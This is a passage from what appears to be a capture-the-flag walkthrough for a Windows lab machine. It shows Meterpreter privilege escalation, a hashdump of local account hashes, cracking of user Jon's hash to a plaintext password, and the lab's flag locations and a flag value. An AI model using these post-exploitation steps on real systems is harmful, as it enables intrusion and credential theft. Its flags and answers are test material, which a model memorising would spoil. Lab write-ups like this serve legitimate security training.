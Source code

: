 {% tab title="Escalate" %}
```
[CTRL+z]
use post/multi/manage/shell_to_meterpreter

OR

meterpreter > getsystem
```
{% endtab %}

{% tab title="hashdump" %}
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```
{% endtab %}

{% tab title="Crack password" %}
1. Go to [CrackStation](https://crackstation.net)
2. Copy the second part of the hash for Jon:

```
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

So only `ffb43f0de35be4d9917ac0cc8ad57f8d`

3\. Password is `alqfna22`
{% endtab %}
{% endtabs %}

## Task #5: Flags

{% hint style="info" %}
Flag in root system: `flag{access_the_machine}`

```
C:\>where /r c: flag*.txt
where /r c: flag*.txt
C:\flag1.txt
C:\Users\Jon\Documents\flag3.txt
C:\Windows\System32\config\flag2.txt
```
{% endhint %}
